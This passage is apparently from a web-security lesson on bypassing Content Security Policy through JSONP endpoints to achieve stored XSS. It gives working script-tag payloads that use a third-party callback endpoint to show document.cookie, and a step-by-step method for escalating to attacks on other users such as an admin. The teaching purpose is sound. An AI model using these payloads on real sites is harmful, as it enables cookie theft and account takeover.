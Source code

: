 Our prior stored XSS attacks will not work, as demonstrated in the prior section. However, if there is a JSONP endpoint available for this domain we can perhaps bypass CSP. The [JSONBee GitHub page](https://github.com/zigoo0/JSONBee) contains a long list of these configurable endpoints, including `"><script+src="https://bebezoo.1688.com/fragment/index.htm?callback=alert(1337)"></script>`! This is presented with a preceding `>` that would escape a tag, which is irrelevant in our case. What we really care about is `<script src="https://bebezoo.1688.com/fragment/index.htm?callback=alert(1337)"></script>`. We can visit that site and see that it generates raw data in the form of a Javascript function (`alert`) that wraps a JSON object.

```javascript
alert(1337)({ "rgv587_flag": "sm", "url": "https://bebezoo.1688.com:443//fragment/index.htm/_____tmd_____/punish?x5secdata=xdea253f6d7153a528e3dfc46c616fdc3aeee4e987dea8471d1730076238a102528611a100710459abazc2aaa__bx__bebezoo.1688.com%3A443%2Ffragment%2Findex.htm&x5step=2" })
```

Let's make a slight modification, changing the payload to `alert(document.cookie)`. Start the server (in the `src/lesson12/stored_xss` directory) and create a new comment with the payload `<script src="https://bebezoo.1688.com/fragment/index.htm?callback=alert(document.cookie)"></script>`. The result is the same as the pre-CSP example: we are able to pop an alert with the user's cookie!

> Note that we must use the `<script src="URL"></script>` format for JSONP endpoints, since we're loading the Javascript from a URL.

JSONP supports the `XMLHttpRequest` object, so we can build up a more complicated JSONP endpoint query to execute more robust commands on the server, like in the [[#XMLHttpRequest]] section. Finally, here are a few guides with helpful examples for CSP bypass using JSONP.

* [Bypassing CSP with JSONP Endpoints](https://hurricanelabs.com/blog/bypassing-csp-with-jsonp-endpoints/)
* [Third Party Endpoints + JSONP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#third-party-endpoints--jsonp)
* [Common CSP Bypasses](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/)

## Testing XSS

Achieving XSS can be hard when we have modern mitigations like CSP (and [CORS](https://portswigger.net/web-security/cors#:~:text=Cross%2Dorigin%20resource%20sharing%20(CORS)%20is%20a%20browser%20mechanism,outside%20of%20a%20given%20domain.), which is not covered in this lesson). Testing XSS incrementally to discern avenues to exploitation is incredibly important. As always, document what has been tested and what the results were. In general, a good strategy for testing XSS is as follows: 

1. Search for entry points into the site where we can upload or submit user-controlled data
2. Identify or generate a hypothesis as to how the user-controlled data is being used. Is it possible we can trigger loading it into the DOM?
3. Check the CSP headers to see if CSP is enforced.
	1. If not, try injecting Javascript directly into the DOM
	2. If so, check the [JSONBee GitHub page](https://github.com/zigoo0/JSONBee) if any of the allow-listed domains have a JSONP endpoint
4. Test user-side first before attempting stored XSS or reflected XSS against another user (e.g,. admin)
5. Start small, testing with something like `alert("hi")` or `<script>alert("hi")</script>`. An alert confirms that Javascript is being executed
6. Add functionality, such as extracting `document.cookie` in the alert
7. Build up an [`XMLHttpRequest`](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), testing first again our own browser
8. Once things are working and confirmed, attempt the final payload against the target
